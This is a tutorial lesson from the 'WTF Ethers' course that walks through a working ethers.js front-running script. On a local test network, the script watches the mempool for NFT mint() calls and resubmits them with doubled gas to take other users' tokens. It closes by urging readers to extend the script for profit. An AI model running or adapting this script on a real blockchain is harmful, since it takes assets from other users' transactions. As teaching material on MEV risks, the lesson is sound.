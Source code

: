```yaml
---
title: 23. Front-running Script
tags:
  - ethers
  - javascript
  - mev
  - mempool
  - frontrun
  - nft
  - frontend
  - web
---
```


# WTF Ethers: 23. Front-running Script

Recently, I've been relearning `ethers.js` to strengthen my understanding and to write a simplified guide called `WTF Ethers` for beginners to use.

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

WTF Academy Community: [Discord](https://discord.gg/5akcruXrsk)｜[WeChat Group](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[Website wtf.academy](https://wtf.academy)

All code and tutorials are open source on GitHub: [github.com/WTFAcademy/WTFEthers](https://github.com/WTFAcademy/WTF-Ethers)

---

In this lesson, we will introduce a script for front-running transactions. According to statistics, arbitrageurs on Ethereum have made $1.2 billion in profits through sandwich attacks. Before proceeding, please read the [WTF Solidity Tutorial Contract Security S11: Front-running](https://github.com/AmazingAng/WTFSolidity/blob/main/S11_Frontrun/readme.md).

![](./img/23-1.png)

## Freemint NFT Contract

The target contract that we will be front-running is an ERC721 standard NFT contract called `Frontrun.sol`, which has a `mint()` function for free minting.

```solidity
// SPDX-License-Identifier: MIT
// By 0xAA
pragma solidity ^0.8.4;
import "@openzeppelin/contracts/token/ERC721/ERC721.sol";

// We are attempting to front-run a Free mint transaction
contract FreeMint is ERC721 {
    uint256 public totalSupply;

    // Constructor to initialize the NFT collection's name and symbol
    constructor() ERC721("Free Mint NFT", "FreeMint"){}

    // Mint function
    function mint() external {
        totalSupply++;
        _mint(msg.sender, totalSupply); // mint
    }
}
```

To simplify the testing environment, we will deploy the above contract on the local test network, foundry, and then monitor the pending transactions in the mempool to filter out qualifying transactions for front-running.

If you're not familiar with `foundry`, you can read the [Foundry Tutorial in WTF Solidity](https://github.com/AmazingAng/WTF-Solidity/blob/main/Topics/Tools/TOOL07_Foundry/readme.md). Once you have installed foundry, you can start the local test network by running the following command in the command line:

```shell
anvil
```

## Front-running Script

Next, let's take a detailed look at the front-running script `frontrun.js`. This script will monitor the `mint()` transactions on the chain and send a higher-gas transaction to front-run them.

1. Create a `provider` object to connect to the local foundry test network for monitoring and sending transactions. The default URL for the foundry local test network is `"http://127.0.0.1:8545"`.

    ```js
    //1. Connect to the local foundry network
    import { ethers } from "ethers";
    const provider = new ethers.providers.WebSocketProvider('http://127.0.0.1:8545')
    let network = provider.getNetwork()
    network.then(res => console.log(`[${(new Date).toLocaleTimeString()}] Connected to network ${res.chainId}`))
    ```
2. Create a contract instance to view the minting results and confirm if front-running was successful.

    ```js
    //2. Build contract instance
    const contractABI = [
        "function mint() public",
        "function ownerOf(uint256) public view returns (address) ",
        "function totalSupply() view returns (uint256)"
    ]

    const contractAddress = '0xC76A71C4492c11bbaDC841342C4Cb470b5d12193' // Address of the contract
    const contractFM = new ethers.Contract(contractAddress, contractABI, provider)
    ```
3. Create an `interface` object that contains the `mint()` function we are interested in. We will use this object during the monitoring process. If you're not familiar with it, you can read the [WTF Ethers Simplified Lesson 20: Decoding Transactions](https://github.com/WTFAcademy/WTFEthers/blob/main/20_DecodeTx/readme.md).

    ```js
    //3. Create an Interface object to retrieve the mint function
    const iface = new ethers.utils.Interface(contractABI)
    function getSignature(fn) {
        return iface.getSighash(fn)
    }
    ```
4. Create a test wallet to send front-running transactions. The private key is provided by the foundry test network and contains 10,000 ETH test tokens.

    ```js
    //4. Create a test wallet to send front-running transactions. The private key is provided by the foundry test network
    const privateKey = '0xac0974bec39a17e36ba4a6b4d238ff944bacb478cbed5efcae784d7bf4f2ff80'
    const wallet = new ethers.Wallet(privateKey, provider)
    ```
5. Let's first see what a normal mint result looks like. We will use the `provider.on` method to monitor the pending transactions in the mempool. When a transaction occurs, we will use the transaction hash `txHash` to read the transaction details `tx` and filter out the transactions that call the `mint()` function. We will then view the transaction result, get the minted NFT token ID and its owner, and compare the transaction sender address with the owner address to confirm that the mint executed as expected.

    ```js
    //5. Build a normal mint function to verify the mint result and display it as normal.
    const normaltx = async () => {
    provider.on('pending', async (txHash) => {
        provider.getTransaction(txHash).then(
            async (tx) => {
                if (tx.data.indexOf(getSignature("mint") !== -1)) {
                    console.log(`[${(new Date).toLocaleTimeString()}] Transaction detected: ${txHash}`)
                    console.log(`Address that initiated the minting: ${tx.from}`) // Print the transaction sender address
                    await tx.wait()
                    const tokenId = await contractFM.totalSupply()
                    console.log(`Minted NFT token ID: ${tokenId}`)
                    console.log(`Owner of NFT with ID ${tokenId}: ${await contractFM.ownerOf(tokenId)}`) // Print the NFT owner address
```
```md
```js
console.log(`Is the address that initiated the minting the owner of the corresponding NFT:${tx.from === await contractFM.ownerOf(tokenId)}`)//Compare whether they are the same
```

![](./img/23-2.png)

6. Front-run the minting. We still use the `provider.on` method to listen for pending transactions in the mempool. When a transaction that calls the `mint()` function appears and the sender is not our wallet address (if not filtered, it will be an infinite loop of racing against ourselves), construct a front-run transaction and send it to race. After waiting for the transaction to complete, check the front-run result. The expected result is that the NFT to be minted is not minted by the original transaction initiator, but by the front-run address. At the same time, check the data in the block. The front-run transaction is included in the block before the original transaction is packaged, indicating a successful front-run!

    ```js
    const frontRun = async () => {
        provider.on('pending', async (txHash) => {
            const tx = await provider.getTransaction(txHash)
            if (tx.data.indexOf(getSignature("mint")) !== -1 && tx.from !== wallet.address) {
                console.log(`[${(new Date).toLocaleTimeString()}]Transaction found:${txHash}\nPreparing for front-running`)
                const frontRunTx = {
                    to: tx.to,
                    value: tx.value,
                    maxPriorityFeePerGas: tx.maxPriorityFeePerGas.mul(2),
                    maxFeePerGas: tx.maxFeePerGas.mul(2),
                    gasLimit: tx.gasLimit.mul(2),
                    data: tx.data
                }
                const aimTokenId = (await contractFM.totalSupply()).add(1)
                console.log(`The NFT ID to be minted is:${aimTokenId}`)//Print the NFT ID to be minted
                const sentFR = await wallet.sendTransaction(frontRunTx)
                console.log(`Front-running the transaction`)
                const receipt = await sentFR.wait()
                console.log(`Front-run transaction succeeded, transaction hash:${receipt.transactionHash}`)
                console.log(`Address that initiated the mint:${tx.from}`)
                console.log(`The owner of NFT with ID ${aimTokenId} is ${await contractFM.ownerOf(aimTokenId)}`)//The NFT minted just now is not owned by tx.from
                console.log(`The owner of NFT with ID ${aimTokenId.add(1)} is:${await contractFM.ownerOf(aimTokenId.add(1))}`)//tx.from was front-run by wallet.address and minted the next NFT
                console.log(`Is the address that initiated the minting the owner of the corresponding NFT:${tx.from === await contractFM.ownerOf(aimTokenId)}`)//Comparison, tx.from was front-run
                //Check block data result
                const block = await provider.getBlock(tx.blockNumber)
                console.log(`Transactions in the block:${block.transactions}`)//In the block, the later transaction is placed before the earlier transaction, indicating a successful front-run.
            }
        })
    }
    ```

    ![](./img/23-3.png)

## Summary

In this lesson, we introduced a simple front-running script. You can add the desired features to this script and start your journey as a scientist in the crypto world!
```